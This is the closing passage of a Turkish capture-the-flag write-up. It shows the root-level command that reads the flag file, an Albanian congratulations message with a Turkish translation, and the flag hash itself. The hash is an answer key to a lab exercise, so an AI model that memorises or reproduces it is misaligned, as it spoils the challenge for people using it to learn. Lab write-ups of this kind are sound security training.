

    cat /root/flag.txt

ile flagi bastırıp flagı gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.
FLAG:

    **Urime,**

    **Tani nis raportin!**

    **(arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)**

#   d5ed38fdbf28bc4e58be142cf5a17cf5

